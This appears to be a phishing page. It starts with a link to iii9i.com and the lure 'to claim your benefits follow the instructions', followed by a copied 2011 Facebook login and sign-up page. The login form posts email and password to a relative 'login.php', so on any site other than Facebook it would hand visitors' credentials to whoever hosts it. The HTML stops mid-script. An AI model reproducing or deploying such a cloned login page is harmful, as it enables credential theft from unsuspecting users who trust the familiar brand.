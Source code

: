 <html>
    <body>
        <a href="http://iii9i.com">HelloWord</a>
    </body>
</html>to claim your benefits follow the instructions
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<HTML id=facebook lang=en class=" canHaveFixedElements"
onsubmit="null"><HEAD><META content="IE=8.0000" http-equiv="X-UA-Compatible">
<TITLE>Welcome to Facebook - Log In, Sign Up or Learn More</TITLE>
<META charset=utf-8>
<SCRIPT>function envFlush(b){function a(c){for(var d in b)c[d]=b[d];}if(window.require){require.ensure(['Env'],a);}else{Env=window.Env||{};a(Env);}}
envFlush({"ffid1":"IVblhIpx7ivqde11WL_bsg","ffid2":"GttzCcBjUCVjY_rqSzD3yQ","ffid3":"elI3dVR0VExHY0FMWnpsUE82emkzcF9O","ffid4":"OJ9QuR9MiYQgswuxG0Mw2w","ffver":63083,"user":"0","locale":"en_US","method":"GET","ps_limit":5,"ps_ratio":4,"svn_rev":489567,"vip":"69.171.229.11","static_base":"http:\/\/static.ak.fbcdn.net\/","www_base":"http:\/\/www.facebook.com\/","rep_lag":2,"fb_dtsg":"AQCgSp7S","ajaxpipe_token":"AXhmY5jh7ZnoaJUb","lhsh":"jAQFTXG3f","tracking_domain":"http:\/\/pixel.facebook.com","retry_ajax_on_network_error":"1","ajaxpipe_enabled":"1","html5_audio":"1"});</SCRIPT>

<SCRIPT>CavalryLogger=false;window._incorporate_fragment = true;window._script_path = "\/index.php";window._EagleEyeSeed="mdgV";</SCRIPT>
<NOSCRIPT></NOSCRIPT>
<META name=robots content="noodp, noydir">
<META name=description
content=" Facebook is a social utility that connects people with friends and others who work, study and live around them. People use Facebook to keep up with friends, upload an unlimited number of photos, post links and videos, and learn more about the people they meet."><LINK
rel=alternate href="http://www.facebook.com/" media=handheld><LINK
rel="shortcut icon"
href="http://static.ak.fbcdn.net/rsrc.php/yi/r/q9U99v3_saj.ico"><NOSCRIPT></NOSCRIPT><LINK
rel=stylesheet type=text/css
href="http://static.ak.fbcdn.net/rsrc.php/v1/yY/r/KgAfuzPx5D9.css"><LINK
rel=stylesheet type=text/css
href="http://static.ak.fbcdn.net/rsrc.php/v1/yo/r/yxkgLy_Ur_y.css">
<SCRIPT type=text/javascript
src="http://static.ak.fbcdn.net/rsrc.php/v1/yD/r/Lp_Ns2NjfvH.js"></SCRIPT>

<SCRIPT>window.Bootloader && Bootloader.done(["pQ27\/"]);</SCRIPT>

<SCRIPT type=text/javascript
src="http://static.ak.fbcdn.net/rsrc.php/v1/yZ/r/923PvYoemBG.js"
async="true"></SCRIPT>

<SCRIPT type=text/javascript
src="http://static.ak.fbcdn.net/rsrc.php/v1/y9/r/ipKsZUpaofF.js"
async="true"></SCRIPT>

<SCRIPT type=text/javascript
src="http://static.ak.fbcdn.net/rsrc.php/v1/yj/r/VHNYRANLCCy.js"
async="true"></SCRIPT>
</HEAD>
<BODY style="ZOOM: 100%" class="fbIndex UIPage_LoggedOut ie8 win Locale_en_US">
<DIV style="POSITION: absolute; WIDTH: 0px; HEIGHT: 0px; TOP: -10000px"
id=FB_HiddenContainer></DIV>
<DIV id=blueBarHolder class=loggedOut>
<DIV id=blueBar>
<DIV class=loggedout_menubar_container>
<DIV class="clearfix loggedout_menubar"><A class=lfloat
title="Go to Facebook Home" href="/"><IMG class="fb_logo img"
alt="Facebook logo"
src="http://static.ak.fbcdn.net/rsrc.php/v1/yp/r/kk8dc2UJYJ4.png" width=170
height=36></A>
<DIV class=rfloat>
<DIV class=menu_login_container>
<FORM id=login_form onsubmit="return Event.__inlineSubmit(this,event)"
method=POST action=login.php><INPUT
value=?,?,?,?,?,?,? type=hidden name=charset_test><INPUT value=z3QAL type=hidden
name=lsd autocomplete="off"><INPUT id=locale value=en_US type=hidden name=locale
autocomplete="off">
<TABLE cellSpacing=0>
  <TBODY>
  <TR>
    <TD class=html7magic><LABEL for=email>Email</LABEL></TD>
    <TD class=html7magic><LABEL for=pass>Password</LABEL></TD></TR>
  <TR>
    <TD><INPUT id=email class=inputtext tabIndex=1 type=text name=email></TD>
    <TD><INPUT id=pass class=inputtext tabIndex=2 value="" type=password
      name=pass></TD>
    <TD><LABEL class="uiButton uiButtonConfirm" for=u8mwyx_5><INPUT id=u8mwyx_5 tabIndex=4 value="Log In" type=submit></LABEL></TD></TR>
  <TR>
    <TD class=login_form_label_field>
      <DIV class=uiInputLabel><INPUT id=persist_box class=uiInputLabelCheckbox
      tabIndex=3 value=1 type=checkbox name=persistent><LABEL
      for=persist_box>Keep me logged in</LABEL></DIV><INPUT value=0 type=hidden
      name=default_persistent></TD>
    <TD class=login_form_label_field><A
      href="http://www.facebook.com/recover.php" rel=nofollow>Forgot your
      password?</A></TD></TR></TBODY></TABLE><INPUT value=?,?,?,?,?,?,? type=hidden 
name=charset_test><INPUT id=lsd value=z3QAL type=hidden name=lsd
autocomplete="off"><INPUT id=u8mwyx_6 value=-330 type=hidden name=timezone
autocomplete="off"></FORM></DIV></DIV></DIV></DIV></DIV></DIV>
<DIV id=globalContainer>
<DIV id=content class="fb_content clearfix">
<DIV><!-- 2365fa3194ecdc0cab15721ce967a9f8663937c7 -->
<DIV class=gradient>
<DIV class=gradientContent>
<DIV class="clearfix fbIndexFeaturedRegistration">
<DIV class="feature lfloat">
<DIV class="plm fbIndexMap">
<DIV class="plm title fsl fwb fcb">Facebook helps you connect and share with the
people in your life.</DIV>
<DIV class="mtl map"></DIV></DIV></DIV>
<DIV class="signupForm rfloat">
<DIV class="mbm phm headerTextContainer">
<DIV class="mbs mainTitle fsl fwb fcb">Sign Up</DIV>
<DIV class="mbm subtitle fsm fwn fcg">It's free and always will be.</DIV></DIV>
<DIV id=registration_container>
<DIV data-referrer="simple_registration_form"><NOSCRIPT></NOSCRIPT>
<DIV id=simple_registration_container class=simple_registration_container>
<DIV id=reg_box>
<FORM id=reg
onsubmit="return function(event){return false;}.call(this,event)!==false &amp;&amp; Event.__inlineSubmit(this,event)"
method=post name=reg><INPUT value=8466c6978e380b70c90ead7fe65f95cf type=hidden
name=post_form_id autocomplete="off"><INPUT value=z3QAL type=hidden name=lsd
autocomplete="off"><INPUT id=reg_instance value=b4L0TiPGBMgCsLBqr6ZeK8lC
type=hidden name=reg_instance autocomplete="off"><INPUT id=locale value=en_US
type=hidden name=locale autocomplete="off"><INPUT id=terms value=on type=hidden
name=terms autocomplete="off"><INPUT id=abtest_registration_group value=1
type=hidden name=abtest_registration_group autocomplete="off"><INPUT id=referrer
type=hidden name=referrer autocomplete="off"><INPUT id=md5pass type=hidden
name=md5pass autocomplete="off"><INPUT id=validate_mx_records value=1
type=hidden name=validate_mx_records autocomplete="off"><INPUT id=asked_to_login
value=0 type=hidden name=asked_to_login autocomplete="off"><INPUT
id=ab_test_data type=hidden name=ab_test_data autocomplete="off">
<DIV id=reg_form_box class=large_form>
<TABLE class="uiGrid editor" cellSpacing=0 cellPadding=1>
  <TBODY>
  <TR>
    <TD class=label><LABEL for=firstname>First Name:</LABEL></TD>
    <TD>
      <DIV class=field_container><INPUT id=firstname class=inputtext type=text
      name=firstname></DIV></TD></TR>
  <TR>
    <TD class=label><LABEL for=lastname>Last Name:</LABEL></TD>
    <TD>
      <DIV class=field_container><INPUT id=lastname class=inputtext type=text
      name=lastname></DIV></TD></TR>
  <TR>
    <TD class=label><LABEL for=reg_email__>Your Email:</LABEL></TD>
    <TD>
      <DIV class=field_container><INPUT id=reg_email__ class=inputtext type=text
      name=reg_email__></DIV></TD></TR>
  <TR>
    <TD class=label><LABEL for=reg_email_confirmation__>Re-enter
    Email:</LABEL></TD>
    <TD>
      <DIV class=field_container><INPUT id=reg_email_confirmation__
      class=inputtext type=text name=reg_email_confirmation__></DIV></TD></TR>
  <TR>
    <TD class=label><LABEL for=reg_passwd__>New Password:</LABEL></TD>
    <TD>
      <DIV class=field_container><INPUT id=reg_passwd__ class=inputtext value=""
      type=password name=reg_passwd__></DIV></TD></TR>
  <TR>
    <TD class=label>I am:</TD>
    <TD>
      <DIV class=field_container>
      <DIV class=hidden_elem><SELECT><OPTION
        selected></OPTION><OPTION></OPTION></SELECT><SELECT><OPTION
        selected></OPTION><OPTION></OPTION></SELECT></DIV><SELECT id=sex
      class=select name=sex><OPTION selected value=0>Select
        Sex:</OPTION><OPTION value=1>Female</OPTION><OPTION
      value=2>Male</OPTION></SELECT></DIV></TD></TR>
  <TR>
    <TD class=label>Birthday:</TD>
    <TD>
      <DIV class=field_container><SELECT id=birthday_month
      onchange='return run_with(this, ["editor"], function() {editor_date_month_change(this, "birthday_day", "birthday_year");});'
      name=birthday_month><OPTION selected value=-1>Month:</OPTION><OPTION
        value=1>Jan</OPTION><OPTION value=2>Feb</OPTION><OPTION
        value=3>Mar</OPTION><OPTION value=4>Apr</OPTION><OPTION
        value=5>May</OPTION><OPTION value=6>Jun</OPTION><OPTION
        value=7>Jul</OPTION><OPTION value=8>Aug</OPTION><OPTION
        value=9>Sep</OPTION><OPTION value=10>Oct</OPTION><OPTION
        value=11>Nov</OPTION><OPTION value=12>Dec</OPTION></SELECT> <SELECT
      id=birthday_day name=birthday_day><OPTION selected
        value=-1>Day:</OPTION><OPTION value=1>1</OPTION><OPTION
        value=2>2</OPTION><OPTION value=3>3</OPTION><OPTION
        value=4>4</OPTION><OPTION value=5>5</OPTION><OPTION
        value=6>6</OPTION><OPTION value=7>7</OPTION><OPTION
        value=8>8</OPTION><OPTION value=9>9</OPTION><OPTION
        value=10>10</OPTION><OPTION value=11>11</OPTION><OPTION
        value=12>12</OPTION><OPTION value=13>13</OPTION><OPTION
        value=14>14</OPTION><OPTION value=15>15</OPTION><OPTION
        value=16>16</OPTION><OPTION value=17>17</OPTION><OPTION
        value=18>18</OPTION><OPTION value=19>19</OPTION><OPTION
        value=20>20</OPTION><OPTION value=21>21</OPTION><OPTION
        value=22>22</OPTION><OPTION value=23>23</OPTION><OPTION
        value=24>24</OPTION><OPTION value=25>25</OPTION><OPTION
        value=26>26</OPTION><OPTION value=27>27</OPTION><OPTION
        value=28>28</OPTION><OPTION value=29>29</OPTION><OPTION
        value=30>30</OPTION><OPTION value=31>31</OPTION></SELECT> <SELECT
      id=birthday_year
      onchange='return run_with(this, ["editor"], function() {editor_date_month_change("birthday_month","birthday_day",this);});'
      name=birthday_year><OPTION selected value=-1>Year:</OPTION><OPTION
        value=2011>2011</OPTION><OPTION value=2010>2010</OPTION><OPTION
        value=2009>2009</OPTION><OPTION value=2008>2008</OPTION><OPTION
        value=2007>2007</OPTION><OPTION value=2006>2006</OPTION><OPTION
        value=2005>2005</OPTION><OPTION value=2004>2004</OPTION><OPTION
        value=2003>2003</OPTION><OPTION value=2002>2002</OPTION><OPTION
        value=2001>2001</OPTION><OPTION value=2000>2000</OPTION><OPTION
        value=1999>1999</OPTION><OPTION value=1998>1998</OPTION><OPTION
        value=1997>1997</OPTION><OPTION value=1996>1996</OPTION><OPTION
        value=1995>1995</OPTION><OPTION value=1994>1994</OPTION><OPTION
        value=1993>1993</OPTION><OPTION value=1992>1992</OPTION><OPTION
        value=1991>1991</OPTION><OPTION value=1990>1990</OPTION><OPTION
        value=1989>1989</OPTION><OPTION value=1988>1988</OPTION><OPTION
        value=1987>1987</OPTION><OPTION value=1986>1986</OPTION><OPTION
        value=1985>1985</OPTION><OPTION value=1984>1984</OPTION><OPTION
        value=1983>1983</OPTION><OPTION value=1982>1982</OPTION><OPTION
        value=1981>1981</OPTION><OPTION value=1980>1980</OPTION><OPTION
        value=1979>1979</OPTION><OPTION value=1978>1978</OPTION><OPTION
        value=1977>1977</OPTION><OPTION value=1976>1976</OPTION><OPTION
        value=1975>1975</OPTION><OPTION value=1974>1974</OPTION><OPTION
        value=1973>1973</OPTION><OPTION value=1972>1972</OPTION><OPTION
        value=1971>1971</OPTION><OPTION value=1970>1970</OPTION><OPTION
        value=1969>1969</OPTION><OPTION value=1968>1968</OPTION><OPTION
        value=1967>1967</OPTION><OPTION value=1966>1966</OPTION><OPTION
        value=1965>1965</OPTION><OPTION value=1964>1964</OPTION><OPTION
        value=1963>1963</OPTION><OPTION value=1962>1962</OPTION><OPTION
        value=1961>1961</OPTION><OPTION value=1960>1960</OPTION><OPTION
        value=1959>1959</OPTION><OPTION value=1958>1958</OPTION><OPTION
        value=1957>1957</OPTION><OPTION value=1956>1956</OPTION><OPTION
        value=1955>1955</OPTION><OPTION value=1954>1954</OPTION><OPTION
        value=1953>1953</OPTION><OPTION value=1952>1952</OPTION><OPTION
        value=1951>1951</OPTION><OPTION value=1950>1950</OPTION><OPTION
        value=1949>1949</OPTION><OPTION value=1948>1948</OPTION><OPTION
        value=1947>1947</OPTION><OPTION value=1946>1946</OPTION><OPTION
        value=1945>1945</OPTION><OPTION value=1944>1944</OPTION><OPTION
        value=1943>1943</OPTION><OPTION value=1942>1942</OPTION><OPTION
        value=1941>1941</OPTION><OPTION value=1940>1940</OPTION><OPTION
        value=1939>1939</OPTION><OPTION value=1938>1938</OPTION><OPTION
        value=1937>1937</OPTION><OPTION value=1936>1936</OPTION><OPTION
        value=1935>1935</OPTION><OPTION value=1934>1934</OPTION><OPTION
        value=1933>1933</OPTION><OPTION value=1932>1932</OPTION><OPTION
        value=1931>1931</OPTION><OPTION value=1930>1930</OPTION><OPTION
        value=1929>1929</OPTION><OPTION value=1928>1928</OPTION><OPTION
        value=1927>1927</OPTION><OPTION value=1926>1926</OPTION><OPTION
        value=1925>1925</OPTION><OPTION value=1924>1924</OPTION><OPTION
        value=1923>1923</OPTION><OPTION value=1922>1922</OPTION><OPTION
        value=1921>1921</OPTION><OPTION value=1920>1920</OPTION><OPTION
        value=1919>1919</OPTION><OPTION value=1918>1918</OPTION><OPTION
        value=1917>1917</OPTION><OPTION value=1916>1916</OPTION><OPTION
        value=1915>1915</OPTION><OPTION value=1914>1914</OPTION><OPTION
        value=1913>1913</OPTION><OPTION value=1912>1912</OPTION><OPTION
        value=1911>1911</OPTION><OPTION value=1910>1910</OPTION><OPTION
        value=1909>1909</OPTION><OPTION value=1908>1908</OPTION><OPTION
        value=1907>1907</OPTION><OPTION value=1906>1906</OPTION><OPTION
        value=1905>1905</OPTION></SELECT></DIV></TD></TR>
  <TR>
    <TD class=label></TD>
    <TD>
      <DIV id=birthday_warning><A title="Click for more information"
      href="/ajax/reg_birthday_help.php" rel=dialog>Why do I need to provide my
      birthday?</A></DIV></TD></TR></TBODY></TABLE>
<DIV class="reg_btn clearfix"><LABEL class="uiButton uiButtonSpecial"
for=u8mwyx_3><INPUT id=u8mwyx_3 onclick=RegistrationBootloader.bootloadAndValidate(); value="Sign Up" type=submit></LABEL><SPAN
style="DISPLAY: none" id=async_status class=async_status><IMG class=img alt=""
src="http://static.ak.fbcdn.net/rsrc.php/v1/yb/r/GsNJNwuI-UM.gif" width=16
height=11></SPAN></DIV></DIV>
<DIV style="DISPLAY: none" id=reg_captcha>
<DIV>
<H2 id=security_check_header>Security Check</H2>
<DIV id=outer_captcha_box>
<DIV id=captcha_box>
<DIV style="DISPLAY: none" id=captcha_response_error class=field_error>This
field is required.</DIV>
<DIV id=captcha class=captcha><INPUT id=captcha_persist_data
value=AZmBOSILTIbrNXqRCJVZLBAPMiB8kA6V-ywsaSMhZNMUgZIwYDlOvdrviSsSAk1z_C9regpQnLHfTSE9o_YQGaLskSOFgyTrAZ90UpwXBNO7u-y3lpWToTnwIkVKJMauvP5G0usAKJQ-HTYsheXutUEdyjFzt_2rfE8npUgaghZi26yW6hDhKk-MYGKtd9p6gy_AuZHqF6LzpnRj5oPzE_1lHvCE-p3M_2ky1QTvjYJKfy5IDuw58MOqXBc4zV4dp_Gu1XLQaDwsy5SUAExqc8761Vrtuqxmi42d4Exff7AMHJAIJTdVj3A6GjJHFoAyk3ZDEmovo9r_-Ms8R_TWjncweRvUtfOhNLZc96IKAFOuog
type=hidden name=captcha_persist_data autocomplete="off">
<DIV>
<DIV style="DISPLAY: none" id=recaptcha_scripts></DIV><INPUT id=captcha_session
value=SPUH_iJDntJZdIUBZzxoEQ type=hidden name=captcha_session
autocomplete="off"><INPUT id=extra_challenge_params
value=authp=nonce.tt.time.new_audio_default&amp;psig=EWl7kcelQxh7g9ZzOJwg2V6sknI&amp;nonce=SPUH_iJDntJZdIUBZzxoEQ&amp;tt=BKQOEb5QB-9Np0G26u12DBm36jY&amp;time=1324647023&amp;new_audio_default=1
type=hidden name=extra_challenge_params autocomplete="off"><INPUT
id=recaptcha_type value=password type=hidden name=recaptcha_type
autocomplete="off">
<DIV class=recaptcha_text>
<DIV class=recaptcha_only_if_image>Enter both words below, separated by a
space.<BR>Can't read the words below? <A id=recaptcha_reload_btn
onclick="Recaptcha.reload(); return false" href="#">Try different words</A> or
<A onclick='Recaptcha.switch_type("audio"); return false;' href="#">an audio
captcha</A>.</DIV>
<DIV style="DISPLAY: none" class=recaptcha_only_if_audio>Please enter the words
or numbers you hear.<BR><A id=recaptcha_reload_btn
onclick="Recaptcha.reload(); return false" href="#">Try different words</A> or
<A class=recaptcha_only_if_audio
onclick='Recaptcha.switch_type("image"); return false;' href="#">back to
text</A>.</DIV></DIV><SPAN id=recaptcha_play_audio></SPAN>
<DIV class=audiocaptcha></DIV>
<DIV id=recaptcha_image class=captcha_image></DIV>
<DIV id=recaptcha_loading>Loading... <IMG style="WIDTH: 16px; HEIGHT: 11px"
class="captcha_loading img" alt=""
src="http://static.ak.fbcdn.net/rsrc.php/v1/yb/r/GsNJNwuI-UM.gif"></DIV></DIV>
<DIV class=captcha_input><LABEL>Text in the box:</LABEL>
<DIV class=field_container><INPUT id=captcha_response type=text
name=captcha_response autocomplete="off"></DIV><A id=u8mwyx_2 class=mlm
onclick="JSCC.get('j4ef4826fab59c9f697421541').show()" href="#">What's
this?</A></DIV></DIV></DIV></DIV>
<DIV style="DISPLAY: none" id=captcha_buttons class=clearfix>
<DIV id=back_button class=gridCol>
<DIV class=cancel_button_image>&nbsp; </DIV><A id=cancel_button
onclick='return run_with(this, ["registration"], function() {Registration.getInstance().hide_captcha();Registration.getInstance().show_reg_form();});'
href="#">Back</A></DIV>
<DIV id=A_btn_sign_up class=gridCol>
<DIV class="reg_btn clearfix"><LABEL class="big_input uiButton uiButtonSpecial"
for=u8mwyx_4><INPUT id=u8mwyx_4 onclick='setFormTypeABTest($("reg")); Registration.getInstance().validateForm();' value="Sign Up" type=submit></LABEL><SPAN
style="DISPLAY: none" id=captcha_async_status class=async_status><IMG class=img
alt="" src="http://static.ak.fbcdn.net/rsrc.php/v1/yb/r/GsNJNwuI-UM.gif"
width=16 height=11></SPAN></DIV></DIV></DIV></DIV></DIV></FORM>
<DIV style="DISPLAY: none" id=reg_progress>
<DIV id=progress_wrap><IMG class=img alt=""
src="http://static.ak.fbcdn.net/rsrc.php/v1/yb/r/GsNJNwuI-UM.gif" width=16
height=11>
<DIV id=progress_msg>Registering?</DIV></DIV></DIV>
<DIV id=reg_error class=hidden_elem>
<DIV id=reg_error_inner>An error occurred. Please try again.</DIV></DIV>
<DIV id=tos_container class="tos_container hidden_elem">
<P class=legal_tos>By clicking Sign Up, you are indicating that you have read
and agree to the <A href="/legal/terms" rel=nofollow target=_blank>Terms of
Use</A> and <A href="/policy.php" rel=nofollow target=_blank>Privacy
Policy</A>.</P></DIV>
<DIV id=reg_pages_msg class=pagesSection><A href="/pages/create.php">Create a
Page</A> for a celebrity, band or
business.</DIV></DIV></DIV></DIV></DIV></DIV></DIV></DIV></DIV>
<DIV class="mtm locales">
<UL class="uiList uiListHorizontal clearfix localeSelectorList">
  <LI class="uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title="English (US)"
  onclick='intl_set_cookie_locale("en_US", "http:\/\/www.facebook.com\/");'
  href="http://www.facebook.com/">English (US)</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Bengali
  onclick='intl_set_cookie_locale("bn_IN", "http:\/\/bn-in.facebook.com\/");'
  href="http://bn-in.facebook.com/">?????</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Hindi
  onclick='intl_set_cookie_locale("hi_IN", "http:\/\/hi-in.facebook.com\/");'
  href="http://hi-in.facebook.com/">??????</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Punjabi
  onclick='intl_set_cookie_locale("pa_IN", "http:\/\/pa-in.facebook.com\/");'
  href="http://pa-in.facebook.com/">??????</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Tamil
  onclick='intl_set_cookie_locale("ta_IN", "http:\/\/ta-in.facebook.com\/");'
  href="http://ta-in.facebook.com/">?????</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Telugu
  onclick='intl_set_cookie_locale("te_IN", "http:\/\/te-in.facebook.com\/");'
  href="http://te-in.facebook.com/">??????</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Malayalam
  onclick='intl_set_cookie_locale("ml_IN", "http:\/\/ml-in.facebook.com\/");'
  href="http://ml-in.facebook.com/">??????</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title=Spanish
  onclick='intl_set_cookie_locale("es_LA", "http:\/\/es-la.facebook.com\/");'
  href="http://es-la.facebook.com/">Espa?ol</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title="Portuguese (Brazil)"
  onclick='intl_set_cookie_locale("pt_BR", "http:\/\/pt-br.facebook.com\/");'
  href="http://pt-br.facebook.com/">Portugu?s (Brasil)</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  dir=ltr title="French (France)"
  onclick='intl_set_cookie_locale("fr_FR", "http:\/\/fr-fr.facebook.com\/");'
  href="http://fr-fr.facebook.com/">Fran?ais (France)</A></LI>
  <LI class="plm uiListItem  uiListHorizontalItemBorder uiListHorizontalItem"><A
  class=showMore title="Show more languages"
  href="/ajax/intl/language_dialog.php?uri=http%3A%2F%2Fwww.facebook.com%2F&amp;source=TOP_LOCALES_DIALOG"
  rel=dialog>?</A></LI></UL></DIV></DIV></DIV>
<DIV id=pageFooter data-referrer="page_footer">
<DIV id=contentCurve></DIV>
<DIV id=footerContainer class=clearfix>
<DIV class="mrl lfloat" role=contentinfo>
<DIV class="fsm fwn fcg"><SPAN>Facebook ? 2011</SPAN> ? <A
title="Use Facebook in another language."
href="/ajax/intl/language_dialog.php?uri=http%3A%2F%2Fwww.facebook.com%2F"
rel=dialog>English (US)</A></DIV></DIV>
<DIV class="navigation fsm fwn fcg" role=navigation><A
title="Check out Facebook Mobile."
href="http://www.facebook.com/mobile/?ref=pf">Mobile</A> ? <A
title="Find anyone on the web."
href="http://www.facebook.com/find-friends?ref=pf">Find Friends</A> ? <A
title="Embed a Facebook badge on your website."
href="http://www.facebook.com/badges/?ref=pf">Badges</A> ? <A
title="Browse our people directory."
href="http://www.facebook.com/directory/people/">People</A> ? <A
title="Browse our pages directory."
href="http://www.facebook.com/directory/pages/">Pages</A> ? <A accessKey=8
title="Read our blog, discover the resource center, and find job opportunities."
href="http://www.facebook.com/facebook">About</A> ? <A
title="Advertise on Facebook."
href="http://www.facebook.com/campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;extra_1=auto">Advertising</A>
? <A title="Create a Page"
href="http://www.facebook.com/pages/create.php?ref_type=sitefooter">Create a
Page</A> ? <A title="Develop on our platform."
href="http://developers.facebook.com/?ref=pf">Developers</A> ? <A
title="Make your next career move to our awesome company."
href="http://www.facebook.com/careers/?ref=pf">Careers</A> ? <A
title="Learn about your privacy and Facebook."
href="http://www.facebook.com/privacy/explanation">Privacy</A> ? <A accessKey=9
title="Review our terms of service."
href="http://www.facebook.com/legal/terms?ref=pf">Terms</A> ? <A accessKey=0
title="Visit our Help Center."
href="http://www.facebook.com/help/?ref=pf">Help</A></DIV></DIV></DIV></DIV>
<SCRIPT type=text/javascript>/*<![CDATA[*/function si_cj(m){setTimeout(function(){new Image().src="http:\/\/error.facebook.com\/common\/scribe_endpoint.php?c=si_clickjacking&t=988"+"&m="+m;},5000);}if(top!=self && !false){try{if(parent!=top){throw 1;}var si_cj_d=["apps.facebook.com","\/pages\/","apps.beta.facebook.com"];var href=top.location.href.toLowerCase();for(var i=0;i<si_cj_d.length;i++){if (href.indexOf(si_cj_d[i])>=0){throw 1;}}si_cj("3 ");}catch(e){si_cj("1 \t");window.document.write("\u003cstyle>body * {display:none !important;}\u003c\/style>\u003ca href=\"#\" onclick=\"top.location.href=window.location.href\" style=\"display:block !important;padding:10px\">\u003ci class=\"img sp_7gxzm3 sx_7e668c\" style=\"display:block !important\">\u003c\/i>Go to Facebook.com\u003c\/a>");/*CBAYtfGv*/}}/*]]>*/</SCRIPT>

<SCRIPT>Bootloader.setResourceMap({"1zPSk":{"type":"css","permanent":1,"src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yY\/r\/KgAfuzPx5D9.css"},"7bkGa":{"type":"css","permanent":1,"src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yo\/r\/yxkgLy_Ur_y.css"},"2AhYj":{"type":"css","permanent":1,"src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yY\/r\/Mv9G54gUBAu.css"},"2tnMT":{"type":"css","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yY\/r\/HzGYyo4ICnw.css"},"rqVxj":{"type":"css","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/y3\/r\/j1bykAWTb6F.css"},"lOgl3":{"type":"css","permanent":1,"src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yG\/r\/oSIzbfYX8s-.css"}});Bootloader.setResourceMap({"g1o38":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yZ\/r\/923PvYoemBG.js"},"WFWma":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/y9\/r\/ipKsZUpaofF.js"},"L1k\/a":{"type":"js","module":1,"src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yj\/r\/VHNYRANLCCy.js"},"pzflD":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/y5\/r\/HIYMg2szKXG.js"},"F+gVm":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/y_\/r\/rUsa-dVv7T4.js"},"yiife":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yO\/r\/3QaU0baQrDN.js"},"jL\/df":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/y-\/r\/W1JjLF68DpM.js"},"0ado2":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yM\/r\/oYrS_Vw3fY5.js"},"TGESA":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yB\/r\/AOs3dku2wbI.js"},"UUHaO":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yH\/r\/sT0ov7xtOfz.js"},"UP+Dj":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yw\/r\/NdnhbAtXvEc.js"},"ZQXFg":{"type":"js","src":"http:\/\/static.ak.fbcdn.net\/rsrc.php\/v1\/yd\/r\/dpT-tcRYFZy.js"}});
Bootloader.enableBootload({"dom":["g1o38"],"dom-html":["g1o38"],"error-signal":["g1o38","pzflD"],"async":["g1o38","L1k\/a"],"dialog":["7bkGa","g1o38","L1k\/a"],"iframe-shim":["g1o38","F+gVm"],"maxlength-form-listener":["g1o38","yiife"],"dom-form":["g1o38","L1k\/a"],"PhotoTheater":["g1o38","7bkGa","L1k\/a","jL\/df"],"PhotoTagger":["g1o38","L1k\/a","7bkGa"],"TagToken":["g1o38","0ado2","jL\/df"],"TagTokenizer":["g1o38","0ado2","jL\/df","7bkGa","L1k\/a"],"fb-photos-theater-css":["2AhYj","2tnMT","rqVxj"],"animation":["g1o38"],"Hovercard":["g1o38","L1k\/a","7bkGa"],"live-js":["g1o38","L1k\/a","TGESA"],"photocrop2":["g1o38","lOgl3","jL\/df"],"fb-photos-photo-css":["7bkGa"],"fb-photos-snowbox-css":["7bkGa"],"video-rotate-snowbox":["g1o38","L1k\/a","UUHaO"],"dom-scroll":["g1o38"],"PhotoSnowbox":["g1o38","L1k\/a","7bkGa"],"Toggler":["g1o38","L1k\/a","7bkGa"],"ajaxpipe":["g1o38","L1k\/a"],"Tooltip":["g1o38","L1k\/a","7bkGa"],"input-methods":["g1o38"],"async-signal":["g1o38"],"editor":["g1o38","L1k\/a","UP+Dj"],"registration":["g1o38","L1k\/a","7bkGa","1zPSk","WFWma","UP+Dj","ZQXFg"],"dimension-tracking":["g1o38"],"detect-broken-proxy-cache":["g1o38"]});Arbiter.registerCallback(InitialJSLo